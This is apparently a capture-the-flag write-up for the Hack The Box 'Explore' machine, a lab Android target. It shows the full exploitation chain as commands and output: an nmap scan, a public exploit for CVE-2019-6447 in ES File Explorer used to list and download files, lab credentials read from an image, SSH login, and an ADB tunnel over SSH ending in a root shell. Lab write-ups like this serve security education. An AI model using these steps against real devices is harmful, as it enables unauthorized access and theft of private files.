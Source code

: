 # Explore

- Target Machine: 10.10.10.247

## Enumeration

### nmap scan

```bash
# Nmap 7.92 scan initiated Tue Sep  7 17:57:42 2021 as: nmap -sC -sV -p- -vv -oN nmap/all_ports.log 10.10.10.247
Nmap scan report for 10.10.10.247
Host is up, received conn-refused (0.051s latency).
Scanned at 2021-09-07 17:57:57 CEST for 128s
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE REASON      VERSION
2222/tcp  open     ssh     syn-ack     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|   2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqK2WZkEVE0CPTPpWoyDKZkHVrmffyDgcNNVK3PkamKs3M8tyqeFBivz4o8i9Ai8UlrVZ8mztI3qb+cHCdLMDpaO0ghf/50qYVGH4gU5vuVN0tbBJAR67ot4U+7WCcdh4sZHX5NNatyE36wpKj9t7n2XpEmIYda4CEIeUOy2Mm3Es+GD0AAUl8xG4uMYd2rdrJrrO1p15PO97/1ebsTH6SgFz3qjZvSirpom62WmmMbfRvJtNFiNJRydDpJvag2urk16GM9a0buF4h1JCGwMHxpSY05aKQLo8shdb9SxJRa9lMu3g2zgiDAmBCoKjsiPnuyWW+8G7Vz7X6nJC87KpL
5555/tcp  filtered freeciv no-response
35329/tcp open     unknown syn-ack
| fingerprint-strings: 
|   GenericLines: 
|       .
|       .
|       .
42135/tcp open     http    syn-ack     ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    syn-ack     Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

### Exploit DB research

- Found vulnerability + script: https://www.exploit-db.com/exploits/50070

- Running the exploit:

```
[exyss@exyss Explore]$ python scripts/explorer_exploit.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

[exyss@exyss Explore]$ python scripts/explorer_exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg                        

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.

[exyss@exyss Explore]$ mv out.dat creds.jpg
```

- Credentials found in the picture:
    - kristi
    - Kr1sT!5h@Rp3xPl0r3!

## Accessing the machine

We can use these credentials to access the machine through the SSH server hosted on port 2222 using `ssh kristi@10.10.10.247 -p 2222`

The user flag is in the sdcard directory

## Priviledge escalation

In order to easily get root access on an android device, we can use the Android Debug Bridge (ABD).
First, we have to create an SSH tunnel across our machine's 5555 port and the target machine's 5555 port by running `ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222`.
Now we can connect to the target machine with adb passing through our own 5555 port: 

```bash
[exyss@exyss Explore]$ cd andoid-sdk/platform-tools

[exyss@exyss platform-tools]$ ./adb connect localhost:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to localhost:5555

[exyss@exyss platform-tools]$ adb shell
bash: adb: command not found

[exyss@exyss platform-tools]$ ./adb shell
adb: more than one device/emulator

[exyss@exyss platform-tools]$ ./adb list devices
adb: unknown command list

[exyss@exyss platform-tools]$ ./adb devices
List of devices attached
emulator-5554   device
localhost:5555  device

[exyss@exyss platform-tools]$ ./adb -s localhost:5555 shell

x86_64:/ $ cd data

x86_64:/data $ ls
ls: .: Permission denied

1|x86_64:/data $ su

:/ $ cd data

:/data $ ls
adb           bootchart     media       property       tombstones 
anr           cache         mediadrm    resource-cache user       
app           dalvik-cache  misc        root.txt       user_de    
app-asec      data          misc_ce     ss             vendor     
app-ephemeral drm           misc_de     ssh_starter.sh vendor_ce  
app-lib       es_starter.sh nfc         system         vendor_de  
app-private   local         ota         system_ce      
backup        lost+found    ota_package system_de     
```